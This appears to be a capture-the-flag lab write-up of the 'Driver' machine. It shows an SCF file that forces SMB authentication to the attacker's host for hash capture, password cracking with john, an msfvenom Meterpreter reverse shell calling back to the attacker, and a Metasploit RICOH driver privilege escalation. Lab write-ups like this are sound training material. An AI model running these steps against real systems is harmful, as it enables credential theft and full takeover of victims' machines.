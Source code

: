 # Driver

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:26 EDT
Nmap scan report for 10.129.95.238
Host is up (0.015s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Interestingly, WinRM is open.&#x20;

### SCF Exploit --> Creds

Port 80 requires credentials to access.

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I tested weak credentials of `admin:admin`, and it worked. The page is some type of printer service panel.

<figure><img src="../../../.gitbook/assets/image (25) (7).png" alt=""><figcaption></figcaption></figure>

The only working part is the Firmware Updates, which redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (6) (6).png" alt=""><figcaption></figcaption></figure>

This would take any file and upload them to the file share, and a user would open it. Because it uploads to SMB, we can create a malicious SCF File to exploit this.

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

This uses the SCF file to access our machine via SMB, and `responder` would capture the hash. Create an SCF file like so and start `responder`.&#x20;

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Once uploaded, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (5) (9).png" alt=""><figcaption></figcaption></figure>

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-06 09:34) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then log in using `evil-winrm` since port 5985 is open.

<figure><img src="../../../.gitbook/assets/image (16) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Printer Driver Exploit

I ran a WinPEAS scan to enumerate for me. While reading the output, we can see that there's Powershell history files:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Here's the file content:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This, combined with the box name was a hint that we had to expoloit this specific driver somehow. I could only find Metasploit exploits, so let's use that. First we have to generate a Meterpreter reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f exe -o meter.exe
```

Then, we need to upload it and start `exploit/multi/handler`.&#x20;

<figure><img src="../../../.gitbook/assets/image (611).png" alt=""><figcaption></figcaption></figure>

Then, we need to first run `migrate -N explorer.exe` , then `background` this and use the `exploit/windows/local/ricoh_driver_privesc` module. Then, run the following:

```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
exploit
```

Afterwards, we would get a shell as the SYSTEM user.

<figure><img src="../../../.gitbook/assets/image (568).png" alt=""><figcaption></figcaption></figure>

Rooted!
